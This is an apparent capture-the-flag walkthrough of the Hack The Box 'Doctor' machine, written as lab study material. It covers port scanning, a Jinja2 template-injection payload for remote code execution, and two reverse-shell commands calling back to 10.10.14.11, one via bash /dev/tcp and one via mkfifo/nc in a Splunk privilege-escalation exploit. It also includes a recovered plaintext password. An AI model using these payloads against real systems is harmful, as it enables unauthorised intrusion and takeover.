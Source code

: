 ## Doctor

Difficulty: Easy

### User Flag

#### Foothold

```
rustscan -a 10.10.10.209 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/4cd4f0bb-2294-435e-b1ae-fcba70ad242b)

<br>

Inside the website, we enumerate the domain "doctors.htb".

![infoDoctors](https://github.com/b1d0ws/OSCP/assets/58514930/53d242af-ece3-4fb3-b143-fa438778277a)

<br>

On doctors, you can create posts. The title field is vulnerable to SSTI, but it only reflects the result on /archive.

Archive page can be founded through directory enumeration or in the source code of the main page.

![doctors](https://github.com/b1d0ws/OSCP/assets/58514930/ad5893f6-52c9-4712-86b9-02b84511c1a7)

![newPost](https://github.com/b1d0ws/OSCP/assets/58514930/08c58e55-e334-44ad-aae2-76608386b4d4)

![posts](https://github.com/b1d0ws/OSCP/assets/58514930/8543be95-98bf-47bd-b6db-3b1a2d022888)

![archiveSourceCode](https://github.com/b1d0ws/OSCP/assets/58514930/59e577bd-70c6-44d4-9ab4-5c747794f63e)

![archiveSSTI](https://github.com/b1d0ws/OSCP/assets/58514930/88de7415-ca3a-4b42-9509-2a29919bdb1b)

<br>

You can perform RCE with this vulnerability.

```python
# id
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

# reverse shell
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.11/3333 0>&1'").read() }}
```

![archiveId](https://github.com/b1d0ws/OSCP/assets/58514930/2020986e-f6d2-47fa-bcfd-c666ce85fb12)

![rceSSTI](https://github.com/b1d0ws/OSCP/assets/58514930/8933f67f-ff86-4b42-92c3-eaf6d14bc042)

#### User Access

Running linpeas, we enumerate a password in a log file that can be used to login as shaun.

Since our user belongs to "adm" group, we can read logs. The information below is inside /var/logs/apache2/backup, an uncommon log file.

![shaunPassword](https://github.com/b1d0ws/OSCP/assets/58514930/b6dd543f-7031-4bad-b5ff-e48944b75185)

### Root Flag

You can login into splunk with shaun credentials.

![splunkLogin](https://github.com/b1d0ws/OSCP/assets/58514930/c53cac6d-8098-4821-b6a8-86a1fa5fbf98)

<br>

Searching for splunk exploits, we discover a local privilege escalation.

```bash
python3 PySplunkWhisperer2_local_python3.py --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.11 3333 >/tmp/f"
```

![splunkExploitSearch](https://github.com/b1d0ws/OSCP/assets/58514930/1671969e-58ad-458b-ace0-38c4dee6a21e)

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/27d8820c-bda3-47c1-85f1-a56e291abe03)
